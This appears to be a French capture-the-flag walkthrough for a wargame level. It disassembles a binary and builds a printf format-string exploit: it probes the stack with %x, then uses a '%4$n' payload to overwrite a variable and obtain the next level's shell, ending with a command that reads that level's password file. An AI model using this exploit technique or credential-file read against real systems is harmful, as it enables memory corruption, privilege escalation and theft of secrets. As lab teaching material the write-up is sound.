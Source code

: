 On a encore un executable, on le disassemble
il a une fonction V
il y a fgets qui est protegé contre les buffer overflow

et qu'il a une comparaison de "64"

0x080484df <+59>:	cmp    $0x40,%eax

on cherche toute les variables du programme grace a info variable 
on cherche a savoir l'adresse de la variable m qui contient 64 avec print &m on obtient : 0x804988c

mais il y a un printf qu'on va manipuler pour changer la variable a l'adresse 0x804988c, on peut donc faire un format string attack

le flag %x de printf permet de print l'adresse en format hexadécimal

on va essayer de trouver ou se trouve l'adresse avec 

python -c 'print "CCCC %x %x %x %x %x %x"' > /tmp/test
cat /tmp/test - | ./level3
la ou ca se repete c'est la 4 eme position donc on va mettre l'adresse de la variable m qui est : \x8c\x98\x04\x08

python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit

on veut changer le contenu de M qui accepte que 64 bytes donc l'adresse M = 4 il faut qu'on rajoute 60

python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit

on donne l'argument "%4$n" qui veut dire utilise l'argument 4 et utilise %n dessus (l'argument %n ecrit dans l'adresse donnee)

whoami

cat /home/user/level4/.pass